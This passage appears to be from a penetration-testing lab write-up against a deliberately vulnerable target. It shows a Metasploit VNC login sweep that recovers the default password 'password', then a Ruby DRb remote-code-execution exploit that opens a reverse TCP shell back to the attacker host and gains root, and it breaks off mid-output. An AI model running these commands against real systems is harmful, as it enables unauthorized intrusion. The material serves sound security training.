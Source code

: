 ### VNC

Running the default configuration of the `auxiliary/scanner/vnc/vnc_login` Metasploit module led to a successful login credential, using the basic password: `password`

```
msf > use auxiliary/scanner/vnc/vnc_login
msf auxiliary(scanner/vnc/vnc_login) > run

[*] 172.16.243.143:5900   - 172.16.243.143:5900 - Starting VNC login sweep
[!] 172.16.243.143:5900   - No active DB -- Credential data will not be saved!
[+] 172.16.243.143:5900   - 172.16.243.143:5900 - Login Successful: :password
[*] 172.16.243.143:5900   - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

From my attacker machine, I could then leverage this credential to access the system directly:

```
root@kali:~# vncviewer target
Connected to RFB server, using protocol version 3.3
Performing standard VNC authentication
Password:
Authentication successful
...
```

### Ruby DRb RMI

Looking at some of the remaining ports, port 8787's Ruby DRb RMI seemed particularly interesting.

```
8787/tcp  open  drb         Ruby DRb RMI (Ruby 1.8; path /usr/lib/ruby/1.8/drb)
```

Therefore, I decided to do a search in Metasploit for the drb service, and found a Linux exploit that seemed promising (`exploit/linux/misc/drb_remote_codeexec`). Running that against the target system led immediately to another fresh shell, with root privileges.

```
msf > search drb
Matching Modules
================

   Name                                                   Disclosure Date  Rank       Description
   ----                                                   ---------------  ----       -----------
   exploit/linux/misc/drb_remote_codeexec                 2011-03-23       excellent  Distributed Ruby Remote Code Execution
   exploit/multi/misc/wireshark_lwres_getaddrbyname       2010-01-27       great      Wireshark LWRES Dissector getaddrsbyname_request Buffer Overflow
   exploit/multi/misc/wireshark_lwres_getaddrbyname_loop  2010-01-27       great      Wireshark LWRES Dissector getaddrsbyname_request Buffer Overflow (loop)


msf > use exploit/linux/misc/drb_remote_codeexec
msf exploit(linux/misc/drb_remote_codeexec) > run

[*] Started reverse TCP double handler on 172.16.243.144:4444
[*] Trying to exploit instance_eval method
[!] Target is not vulnerable to instance_eval method
[*] Trying to exploit syscall method
[!] Target is not vulnerable to syscall method
[*] Trying to exploit trap method
[*] Accepted the first client connection...
[!] Target is not vulnerable to trap method
[*] Accepted the second client connection...
[*] Command: echo xRb0HkSAZmhcjkV2;
[*] Writing to socket A
```